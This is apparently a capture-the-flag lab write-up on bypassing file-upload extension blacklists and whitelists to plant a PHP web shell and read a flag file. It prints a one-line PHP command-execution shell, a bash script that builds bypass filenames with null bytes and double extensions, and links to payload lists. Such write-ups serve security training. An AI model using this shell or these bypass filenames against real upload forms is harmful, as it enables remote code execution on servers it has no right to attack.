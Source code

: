 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions.
Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

`Hint`: You may use either of the last two techniques. If one extension is blocked, try another one that can execute PHP code.

---
- Test payload:
 ```php
 <?php echo "Hello HTB"; ?>
 ```
- PHP shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- Fuzzing extension whitelist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
(It could be useful to add common image extensions).
- Fuzzing extension list: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

We attempted to subbmit a simple php script with a test payload:
![image](https://github.com/user-attachments/assets/4b62872a-8a53-4aac-9036-b926dc29415f)
![image](https://github.com/user-attachments/assets/f7bb5a8e-dba6-40ea-a7fb-c57bbb2b6794)

We notice we have differente message responses depending either the response is from the whitelist or blacklist.

We attempted to subbmit a php script using `Double Extensions`:
![image](https://github.com/user-attachments/assets/8e7ab974-0a12-4f57-a81a-db475e750feb)

We attempted to subbmit a php script using a `Reverse Double Extension`:
![image](https://github.com/user-attachments/assets/5d3f324d-9e0e-4878-bd7a-287f780761c0)

We also attempted:
![image](https://github.com/user-attachments/assets/35526498-6f80-4f59-a5c0-771c6e74ef93)
![image](https://github.com/user-attachments/assets/95bad4f1-b219-43ba-a443-a6adee0fd057)
![image](https://github.com/user-attachments/assets/f69b6ed7-1468-47c2-bb00-77c6168d40d2)


We tried to submit a php script with null bytes:
![image](https://github.com/user-attachments/assets/977014b2-3f26-4001-a57b-dd64e0114667)

We perform a common extension fuzzing with `Burp Suite Intruder` in order to know the extensions whitelisted:
![image](https://github.com/user-attachments/assets/05fb203f-bed3-498d-a3b9-4ae4ef6b6489)
all of this extensios are not allowed.
![image](https://github.com/user-attachments/assets/933acd67-c3b5-4b8d-9f50-77387ddfb498)
We realized that we receive the response `Only images are allowed` when the server response using the whitelist and `Extension not allowed` if the server is using the blacklist.


We performed a extension fuzzing using `Burp Suite Intruder`:
![image](https://github.com/user-attachments/assets/e3d26584-e313-4a44-870c-54af813e562e)

![image](https://github.com/user-attachments/assets/78f9a8d2-ed7e-478d-a687-e36d024344b5)

Also we can create a custom wordlist with the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.png" >> wordlist.txt
        echo "shell$ext$char.png" >> wordlist.txt
        echo "shell.png$char$ext" >> wordlist.txt
        echo "shell.png$ext$char" >> wordlist.txt
    done
done
```
Then we perform a fuzzing using this list created:
![image](https://github.com/user-attachments/assets/30ece0ba-f8e2-4e18-b28c-143a0f3ed912)

![image](https://github.com/user-attachments/assets/644c8c1c-408e-469c-980c-1ea8f0fdbc5c)

We tried to get de file submitted by using `Intruder`:
![image](https://github.com/user-attachments/assets/4c7cb8da-31a8-4972-9e68-b2d9770b37e3)
![image](https://github.com/user-attachments/assets/ce8a7da6-cd4b-4bfb-b36c-c2194bb5ca4f)

Using repetear we submitted a simple php web shell:
![image](https://github.com/user-attachments/assets/d3a77070-151a-4839-836a-5230b96933d9)
![image](https://github.com/user-attachments/assets/412f206a-e218-47c5-9b56-e536aeb732ee)

We get the flag and solve the lab:
![image](https://github.com/user-attachments/assets/887787b8-5edc-4add-9a55-fcded8f777b3)















